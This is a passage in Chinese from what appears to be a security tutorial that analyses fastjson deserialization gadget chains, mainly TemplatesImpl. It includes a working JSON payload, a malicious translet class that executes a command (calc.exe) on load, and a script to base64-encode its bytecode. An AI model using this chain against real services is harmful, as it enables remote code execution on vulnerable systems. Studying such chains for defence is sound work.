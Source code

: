 - 实战可以利用，JDNI注入基于较低版本的JDK，LDAP适用范围更广
- 必须能出网，加载远端的恶意字节码，造成了局限性
<a name="jungs"></a>
### TemplateImpl
```java
String payload = "{\"a\":{\n" +
    "\"@type\":\"java.lang.Class\",\n" +
    "\"val\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"\n" +
    "},\n" +
    "\"b\":{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
    "\"_bytecodes\":[\"!!!Payload!!!\"],\"_name\":\"a.b\",\"_tfactory\":{},\"_outputProperties\":{}}";
JSON.parse(payload, Feature.SupportNonPublicField);
```
注意其中的Payload来自于恶意类，该类应该继承自`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`
```java
public class TEMPOC extends AbstractTranslet {
    public TEMPOC() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] haFndlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        TEMPOC t = new TEMPOC();
    }
}
```
类似第一条链，使用两个对象绕过，其中的`Payload`为恶意类的字节码再Base64编码的结果，给出简易的py脚本
```java
fin = open(r"PATH-TO-TEMPOC.class", "rb")
byte = fin.read()
fout = base64.b64encode(byte).decode("utf-8")
print(fout)
```
该链需要开启`Feature.SupportNonPublicField`参数再反射设置属性，查看官方说明，如果某属性不存在`set`方法，但还想设置值时，需要开启该参数，这里的情况正好符合，而实际项目中很少出现这种情况，导致该链较鸡肋，没有实际的意义（其实`TemplateImpl`类中有`set`方法，比如`setTransletBytecodes`，但是名称和`Bytecodes`不一致）<br />在`com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseField`设置属性时会有判断
```java
final int mask = Feature.SupportNonPublicField.mask;
if (fieldDeserializer == null
    && (lexer.isEnabled(mask)
        || (this.beanInfo.parserFeatures & mask) != 0)) {
    ......
```
反序列化时，fastjson中会把”_”开头的属性替换为空。并在`outputProperties`设置值时调用`getOutputProperties`
```java
public synchronized Properties getOutputProperties() {
    try {
        return newTransformer().getOutputProperties();
    }
    catch (TransformerConfigurationException e) {
        return null;
    }
}
```
调用到`com.sun.org.apache.xalan.internal.xsltc.trax.newTransformer`方法
```java
transformer = new TransformerImpl(getTransletInstance(), _outputProperties, _indentNumber, _tfactory);
```
跟入`getTransletInstance`